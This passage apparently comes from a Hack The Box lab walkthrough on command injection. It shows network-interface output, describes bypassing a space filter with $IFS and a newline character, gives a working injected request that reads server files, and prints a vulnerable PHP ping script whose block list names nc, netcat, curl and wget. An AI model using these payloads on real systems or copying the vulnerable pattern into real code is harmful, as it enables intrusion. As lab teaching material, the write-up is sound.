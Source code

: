 ens192: flags=4163&lt;UP,BROADCAST,RUNNING,MULTICAST&gt;  mtu 1500
        inet 172.16.8.120  netmask 255.255.254.0  broadcast 172.16.255.255
        inet6 fe80::250:56ff:feb9:a62d  prefixlen 64  scopeid 0x20&lt;link&gt;
        ether 00:50:56:b9:a6:2d  txqueuelen 1000  (Ethernet)
        RX packets 21515  bytes 1890242 (1.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
</code></pre>
<p>Our next challenge is finding a way to a reverse shell. We can run single commands, but anything with a space does not work. Back to the <a href="https://academy.hackthebox.com/module/109/section/1036">Bypassing Space Filters</a> section of the <code>Command Injections</code> module, we remember that we can use the <code>($IFS) Linux Environment Variable</code> to bypass space restrictions. We can combine this with the new-line character bypass and start enumerating ways to obtain a reverse shell. To aid us, let's take a look at the <code>ping.php</code> file to get an understanding of what is being filtered so we can limit the amount of guesswork needed.</p>
<p>Switching back to Burp and making the request <code>GET /ping.php?ip=127.0.0.1%0a'c'at${IFS}ping.php</code>, or similar, gives us the file contents, and we can work on beating the filter and finding a way to establish a reverse shell.</p>
<pre><code class="language-php">&lt;?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$output = '';

function filter($str)
{
  $operators = ['&amp;', '|', ';', '\\', '/', ' '];
  foreach ($operators as $operator) {
    if (strpos($str, $operator)) {
      return true;
    }
  }
  $words = ['whoami', 'echo', 'rm', 'mv', 'cp', 'id', 'curl', 'wget', 'cd', 'sudo', 'mkdir', 'man', 'history', 'ln', 'grep', 'pwd', 'file', 'find', 'kill', 'ps', 'uname', 'hostname', 'date', 'uptime', 'lsof', 'ifconfig', 'ipconfig', 'ip', 'tail', 'netstat', 'tar', 'apt', 'ssh', 'scp', 'less', 'more', 'awk', 'head', 'sed', 'nc', 'netcat'];
  foreach ($words as $word) {
    if (strpos($str, $word) !== false) {
      return true;
    }
  }

  return false;
}

if (isset($_GET['ip'])) {
  $ip = $_GET['ip'];
  if (filter($ip)) {
    $output = "Invalid input";
  } else {
    $cmd = "bash -c 'ping -c 1 " . $ip . "'";
    $output = shell_exec($cmd);
  }
}
?&gt;
&lt;?php
echo $output;
?&gt;
</code></pre>